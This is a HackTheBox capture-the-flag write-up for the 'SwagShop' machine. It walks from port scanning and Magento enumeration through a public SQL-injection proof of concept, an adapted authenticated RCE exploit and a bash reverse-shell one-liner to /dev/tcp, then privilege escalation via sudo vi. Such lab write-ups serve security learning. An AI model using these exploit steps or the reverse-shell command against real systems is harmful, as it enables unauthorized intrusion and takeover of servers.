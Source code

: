 # HackTheBox
------------------------------------
### IP: 10.129.97.42
### Name: SwagShop
### Difficulty: Easy
--------------------------------------------

![SwagShop.png](../assets/swagshop_assets/SwagShop.png)

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.97.42 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-24 08:56 CDT
Nmap scan report for 10.129.97.42
Host is up (0.080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.17 seconds
```

Lets add swagshop.htb to `/etc/hosts`.

We can see that the site on port 80 is running Magento.

![swagshop_site.png](../assets/swagshop_assets/swagshop_site.png)

Running magescan against the target we see it is running version 1.9.0.0:

```
┌──(ryan㉿kali)-[~/Tools/exploits]
└─$ php magescan.phar scan:all http://swagshop.htb/
Scanning http://swagshop.htb/...

                       
  Magento Information  
                       

+-----------+------------------+
| Parameter | Value            |
+-----------+------------------+
| Edition   | Community        |
| Version   | 1.9.0.0, 1.9.0.1 |
+-----------+------------------+
```

Kicking off some directory fuzzing with:
```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ feroxbuster --url http://swagshop.htb/ -x php txt -q 
```

We find some DB credentials in http://swagshop.htb/app/etc/local.xml

![swagshop_xml.png](../assets/swagshop_assets/swagshop_xml.png)

Continuing through the directory scanning results we find the admin login page at: http://swagshop.htb/index.php/admin

![swagshop_admin.png](../assets/swagshop_assets/swagshop_admin.png)

Looking for Magento exploits I find that Magento Shoplift is vulnerable to SQL injection. We can use the PoC at https://github.com/joren485/Magento-Shoplift-SQLI to create a new user:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_sqli.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

We can now login at http://swagshop.htb/index.php/admin

![swagshop_in.png](../assets/swagshop_assets/swagshop_in.png)

Thinking back to the exploits I found for Magento, I recall having seen an authenticated RCE exploit. Now that I have valid credentials, this may work.

I find this script on exploitDB: https://www.exploit-db.com/exploits/37811

But this exploit will need a bit of tweaking for our purposes.

First lets add our created username and password, as well as update the install date variable found at http://swagshop.htb/app/etc/local.xml

![swagshop_config.png](../assets/swagshop_assets/swagshop_config.png)

Trying to run the script with the updates we've made, we get an error with mechanize:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python magento_rce.py http://swagshop.htb/index.php/admin "whoami"
Traceback (most recent call last):
  File "/home/ryan/HTB/SwagShop/magento_rce.py", line 55, in <module>
    br['login[username]'] = username
    ~~^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_mechanize.py", line 809, in __setitem__
    self.form[name] = val
    ~~~~~~~~~^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 1963, in __setitem__
    control = self.find_control(name)
              ^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2355, in find_control
    return self._find_control(name, type, kind, id, label, predicate, nr)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2445, in _find_control
    raise AmbiguityError("more than one control matching " +
mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```

Lets comment out line 53:

#[swagshop_comment.png](../assets/swagshop_assets/swagshop_comment.png)

### Exploitation

Running the exploit again we get execution:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin "whoami"
www-data
```

Lets use this to get a reverse shell:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.108/443 0>&1'" 
```

![swagshop_shell.png](../assets/swagshop_assets/swagshop_shell.png)

We can then grab the user.txt flag:

![swagshop_user_flag.png](../assets/swagshop_assets/swagshop_user_flag.png)

### Privilege Escalation

Running `sudo -l` to see if user www-data can run anything with elevated permissions, we see they can run vi on files in `/var/www/html`:

```
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This is a super dangerous configuration because we can use vi to execute system commands, and if we can execute those commands with sudo, we effectively have a root shell. 

Lets try it by entering `:sh` in our vi session:

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php 
<SNIP>
:sh
root@swagshop:/var/www/html# whoami
root
root@swagshop:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```
We can now grab the root.txt flag:

![swagshop_root_flag.png](../assets/swagshop_assets/swagshop_root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------


